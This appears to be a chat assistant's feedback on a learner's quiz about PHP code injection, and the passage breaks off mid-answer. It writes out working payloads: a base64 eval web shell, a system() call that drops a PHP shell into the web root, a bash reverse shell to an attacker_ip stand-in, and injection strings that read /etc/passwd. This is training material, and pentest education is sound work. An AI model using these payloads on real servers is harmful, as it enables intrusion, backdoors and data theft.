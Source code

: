 > **Your answer:** "...we can pass malicious code to it... out-of-band connections... extract server info... run OS commands... create web shells..."

**🔥 Excellent** — you're not just giving textbook answers, you're thinking **offensively** like a pentester.

Let me add a few common abuse payloads you might run into:

* `eval(base64_decode($_GET['cmd']));` → Common in PHP web shells.
* Web shells via `system("echo <?php system(\$_GET['x']); ?> > /var/www/html/shell.php")`
* Reverse shell: `system("bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'")`

You're right — the possibilities are **nearly unlimited**.

---

### ✅ 3. `system()` vs `file_get_contents()`

> **Your answer:** "`system()` runs OS commands, `file_get_contents()` reads files."

**✔ Exactly right.**

Small bonus clarification:

* `file_get_contents()` is a **PHP-level** function → it doesn’t drop to the OS.
* `system()` invokes the **OS shell**, making it riskier and more powerful for attackers.

---

### ✅ 4. What does this payload do?

```bash
/search.php?storedsearch=$x=1; system('ls /')
```

> **Your answer:** "lists all the content of root directory"

**✔ Correct.**

This is a great proof-of-concept payload because it’s:

* Safe (non-destructive)
* Reveals sensitive info
* Works consistently

Other simple payloads:

* `system('whoami')`
* `system('hostname')`
* `system('cat /etc/passwd')`

---

### ✅ 5. Why URL-encode characters like `;`?

> **Your answer:** "to avoid browser/URL issues or WAF detection."

**✔ Solid and practical.**

More details:

